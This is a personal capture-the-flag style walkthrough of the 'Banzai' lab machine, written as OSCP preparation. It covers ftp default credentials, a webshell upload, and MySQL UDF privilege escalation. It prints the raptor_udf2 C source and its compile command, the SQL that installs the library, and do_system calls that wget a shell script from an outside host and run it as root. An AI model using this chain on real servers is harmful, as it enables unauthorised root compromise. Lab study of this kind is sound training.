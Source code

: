 # Banzai Helped-through
Name: Banzai
Date:  30/10/2022
Difficulty:  Intermediate
Goals:  OSCP Prep
Learnt: 
- Web is a pyschological rabbit hole for me.
- Try default creds on all ftp 
- port numbers because WAF exist!
- mysql has a shell run system commands from mysql:  `\!` 


## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Apex/Screenshots/ping.png)

SSL recently has been a massive headache in alot of my venture in hoping to improve.
![](diffiehellmanvuln.png)  

I downloaded the site, but there is no contact form...

![](noregnacontactform.png)

Found the above very disconcerting as it would hosted elsewhere. Or because its actually the same directory as ftp. I did loads of recon and exploit hunting, but at the end of the day Web is a pyschological rabbit hole for me on top of potential rabbithole.

## Exploit && Foothold

`admin:admin` on ftp... added this to a list things I am an idiot about. This was a massive ouch moment. I am sure there is a Alhazred quote in the back of my mind *"Sometime it just the ftp..."*. 

![](banzaiftpadmin.png)
![]()
Becuase you are `admin` you can upload a shell and due to it also being the web directory use a webshell. 
![](uploadwebshell.png)

It needs to be port 21, because of [[waf-detect-http___192.168.141.56_8295_-apachegeneric]]
![](revshell.png)

## PrivEsc

I decide to close the walkthrough for the next thirty miniutes. Had more trouble connecting back ...

admin user!

![](passinconfigphp.png)

`EscalateRaftHubris123`

/var/log/mail.log - denied

Why is there an mysql and postgres, and the mysql 
![](3306.png)

Root should never run any service!
![](rootprivmysqlproc.png)
The mysql credentials above then make more sense.

![](raptordotcusage.png)

The first step makes and object file.

```
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc <,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

This was a nice reminder why I like clang.
![](compilation.png)

```
#include <stdio.h>
#include <stdlib.h>
 
enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};
 
typedef struct st_udf_args {
        unsigned int arg_count; // number of arguments
        enum Item_result *arg_type; // pointer to item_result
        char **args; // pointer to arguments
        unsigned long *lengths; // length of string args
        char *maybe_null; // 1 for maybe_null args
} UDF_ARGS;
 
typedef struct st_udf_init {
        char maybe_null; // 1 if func can return NULL
        unsigned int decimals; // for real functions
        unsigned long max_length; // for string functions
        char *ptr; // free ptr for func data
        char const_item; // 0 if result is constant
} UDF_INIT;
 
int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
        if (args->arg_count != 1) {
                return(0);
        }
        system(args->args[0]);
        return(0);
}
 
char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
        return(0);
}
```

UDF - User defined functions.

1. Discover where the installation of MySQL stores its UDFs

```sql
show variables like 'plugin_dir';
show variables like 'secure_file_priv';
```

![](sqlinrecon.png)

```sql
use mysql;
create table foo(line blob);
-- Load the shared library file into the table
insert into foo values(load_file('/var/www/raptor_udf2.so'));
-- Dump our table into the live shared library file that mysql is using
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
-- make a function that returns the 0 to shared libary name
create function do_system returns integer soname 'raptor_udf2.so';
-- it because sets our id to 0, therefore root, wow
select do_system('id > /var/www/out; chown www-data.www-data /var/www/out');
\! sh -- run sh from mysql
cat /var/www/out 
```

We run commands as root so we need a another revserve shell
![](notrootyet.png)

I instead of facing the hell hole that is compatiblity and compilation i just transfered a bash  shell.  One day I will finish what is currently named ninjashell to end this nightmare.

```sql
select do_system('wget http://192.168.49.113:8295/shell.sh -O /var/www/shell.sh');
select do_system('chmod 777 /var/www/shell.sh');
select do_system('/var/www/shell.sh');
```

![](whataroot.png)

What a machine. Wow! I learnt alot.